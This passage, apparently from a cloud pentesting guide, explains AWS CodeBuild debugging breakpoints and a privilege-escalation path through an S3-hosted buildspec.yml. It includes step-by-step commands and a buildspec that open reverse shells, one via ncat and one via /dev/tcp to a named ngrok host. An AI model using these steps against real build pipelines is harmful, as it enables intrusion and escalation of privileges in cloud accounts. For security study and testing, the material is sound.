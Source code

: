 The codebuild project will need to have a breakpoint:

<pre class="language-yaml"><code class="lang-yaml">phases:
  pre_build:
    commands:
      - echo Entered the pre_build phase...
      - echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

And then:

```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```

For more info [**check the docs**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).

### (`codebuild:StartBuild` | `codebuild:StartBuildBatch`), `s3:GetObject`, `s3:PutObject`

An attacker able to start/restart a build of a specific CodeBuild project which stores its `buildspec.yml` file on an S3 bucket the attacker has write access to, can obtain command execution in the CodeBuild process.

Note: the escalation is relevant only if the CodeBuild worker has a different role, hopefully more privileged, than the one of the attacker.

```bash
aws s3 cp s3://<build-configuration-files-bucket>/buildspec.yml ./

vim ./buildspec.yml 

# Add the following lines in the "phases > pre_builds > commands" section
#
#    - apt-get install nmap -y
#    - ncat <IP> <PORT> -e /bin/sh

aws s3 cp ./buildspec.yml s3://<build-configuration-files-bucket>/buildspec.yml

aws codebuild start-build --project-name <project-name>

# Wait for the reverse shell :)
```

You can use something like this **builspec** to get a **reverse shell**:

{% code title="buildspec.yml" %}
```yaml
version: 0.2

phases:
  build:
    commands:
      - bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18419 0>&1
```
{% endcode %}
